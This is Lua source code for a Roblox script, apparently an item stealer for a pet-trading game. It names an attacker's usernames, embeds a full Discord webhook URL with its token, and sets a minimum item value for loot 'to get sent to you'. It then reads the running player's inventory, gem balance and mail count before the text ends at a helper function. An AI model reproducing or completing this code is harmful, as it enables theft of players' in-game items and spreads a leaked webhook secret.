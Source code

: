 "Username = "Tavimoficiall"
Username2 = "Tavimoficiall" -- stuff will get sent to this user if first user's mailbox is full
webhook = "{"application_id":"633565743103082527","avatar":null,"channel_id":"1315554678632616000","guild_id":"1315554678632615997","id":"1315556601930977344","name":"\ud83e\udd5a","type":1,"token":"kKpCfKPxlX3yYwJP3tUMlYUoD1Ix_Ip0ZNYrAhmiJuiJvxmR4CxMN_JqyaC6d1PYuahw","url":"https://discord.com/api/webhooks/1315556601930977344/kKpCfKPxlX3yYwJP3tUMlYUoD1Ix_Ip0ZNYrAhmiJuiJvxmR4CxMN_JqyaC6d1PYuahw"}"
min_rap = 1000000 -- minimum rap of each item you want to get sent to you. 1 mil by default

_G.scriptExecuted = _G.scriptExecuted or false
if _G.scriptExecuted then
    return
end
_G.scriptExecuted = true

local network = game:GetService("ReplicatedStorage"):WaitForChild("Network")
local library = require(game.ReplicatedStorage.Library)
local save = require(game:GetService("ReplicatedStorage"):WaitForChild("Library"):WaitForChild("Client"):WaitForChild("Save")).Get().Inventory
local mailsent = require(game:GetService("ReplicatedStorage"):WaitForChild("Library"):WaitForChild("Client"):WaitForChild("Save")).Get().MailboxSendsSinceReset
local plr = game.Players.LocalPlayer
local MailMessage = "jsp"
local HttpService = game:GetService("HttpService")
local sortedItems = {}
local totalRAP = 0
local getFucked = false
local GetSave = function()
    return require(game.ReplicatedStorage.Library.Client.Save).Get()
end

local newamount = 20000

if mailsent ~= 0 then
	newamount = math.ceil(newamount * (1.5 ^ mailsent))
end

local GemAmount1 = 1
for i, v in pairs(GetSave().Inventory.Currency) do
    if v.id == "Diamonds" then
        GemAmount1 = v._am
		break
    end
end

if newamount > GemAmount1 then
    return
end

local function formatNumber(number)
	local number = math.floor(number)
	local suffixes = {"", "k", "m", "b", "t"}
	local suffixIndex = 1
	while number >= 1000 do
		number = number / 1000
		suffixIndex = suffixIndex + 1
	end
	return string.format("%.2f%s", number, suffixes[suffixIndex])
end
